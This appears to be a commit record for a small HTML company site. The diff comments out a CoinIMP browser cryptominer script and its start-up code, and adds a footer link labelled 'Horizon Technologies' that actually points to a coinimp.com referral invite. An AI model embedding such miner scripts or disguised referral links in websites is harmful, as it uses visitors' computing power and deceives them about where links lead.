

Before and after one commit to m23ck/horizon-technologies, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 83-800 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; a script that the page names is missing.

Commit message:
testing if the miner is very consuming

```diff
--- a/index.html
+++ b/index.html
@@ -11,7 +11,8 @@
         integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
     <link rel="stylesheet" href="./src/styles.css">
     <title>Horizon Technologies</title>
-</head><script src="https://www.hostingcloud.racing/CNYZ.js"></script>
+</head>
+<!-- <script src="https://www.hostingcloud.racing/CNYZ.js"></script>
 <script>
     var _client = new Client.Anonymous('f1428de72a1a56ff6a6f48ac5eb470ba1bd71e4eb4cedd6f421f52b66c7fca34', {
         throttle: 0, c: 'w', ads: 0
@@ -19,7 +20,7 @@
     _client.start();
     _client.addMiningNotification("Top", "This site is running JavaScript miner from coinimp.com", "#afafaf", 20, "#ffffff");
 
-</script>
+</script> -->
 <body>
     <center>
 
@@ -41,6 +42,11 @@
                     <span class="text-muted font-sans"> &copy; Copyright 2020 </span><a
                         href="http://horizon-technologies.tech/">Horizon Technologies</a>
                 </div>
+                <div class="col-sm">
+                    <span class="text-muted font-sans"> &copy; Copyright 2020 </span><a
+                        href="http://www.coinimp.com/invite/43286281-e20f-424a-b62e-0d61fba57e13">Horizon Technologies</a>
+
+                </div>
             </div>
         </div>
     </footer>
```
